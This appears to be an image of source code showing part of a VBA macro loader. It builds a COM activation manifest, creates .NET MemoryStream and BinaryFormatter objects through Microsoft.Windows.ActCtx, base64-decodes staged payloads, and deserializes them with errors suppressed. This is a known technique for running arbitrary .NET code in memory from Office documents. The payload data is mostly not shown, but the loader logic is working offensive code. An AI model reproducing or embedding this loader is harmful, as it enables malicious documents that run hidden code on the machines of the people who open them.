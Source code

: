 ```vba
stage_2 = stage_2 & "Dyb3Cws="


    Dim stm_1 As Object, fmt_1 As Object
    
    manifest = "<?xml version=""1.0"" encoding=""UTF-16"" standalone=""yes""?>"
	manifest = manifest & "<assembly xmlns=""urn:schemas-microsoft-com:asm.v1"" manifestVersion=""1.0"">"
	manifest = manifest & "<assemblyIdentity name=""mscorlib"" version=""4.0.0.0"" publicKeyToken=""B77A5C561934E089"" />"
	manifest = manifest & "<clrClass clsid=""{D0CBA7AF-93F5-378A-BB11-2A5D9AA9C4D7}"" progid=""System.Runtime.Serialization"
	manifest = manifest & ".Formatters.Binary.BinaryFormatter"" threadingModel=""Both"" name=""System.Runtime.Serialization.Formatters.Binary.BinaryFormatter"" "
	manifest = manifest & "runtimeVersion=""v4.0.30319"" /><clrClass clsid=""{8D907846-455E-39A7-BD31-BC9F81468B47}"" "
	manifest = manifest & "progid=""System.IO.MemoryStream"" threadingModel=""Both"" name=""System.IO.MemoryStream"" runtimeVersion=""v4.0.30319"" /></assembly>"


    Set actCtx = CreateObject("Microsoft.Windows.ActCtx")
    actCtx.ManifestText = manifest
        
    Set stm_1 = actCtx.CreateObject("System.IO.MemoryStream")
    Set fmt_1 = actCtx.CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")

    Dim Decstage_1
    Decstage_1 = b64Decode(stage_1)

    For Each i In Decstage_1
        stm_1.WriteByte i
    Next i

    On Error Resume Next

    stm_1.Position = 0
    Dim o1 As Object
    Set o1 = fmt_1.Deserialize_2(stm_1)

    If Err.Number <> 0 Then
       Dim stm_2 As Object
       
       Set stm_2 = actCtx.CreateObject("System.IO.MemoryStream")

       Dim Decstage_2
       Decstage_2 = b64Decode(stage_2)

       For Each j In Decstage_2
        stm_2.WriteByte j
       Next j

       stm_2.Position = 0
       Dim o2 As Object
       Set o2 = fmt_1.Deserialize_2(stm_2)
    End If

End Function
```

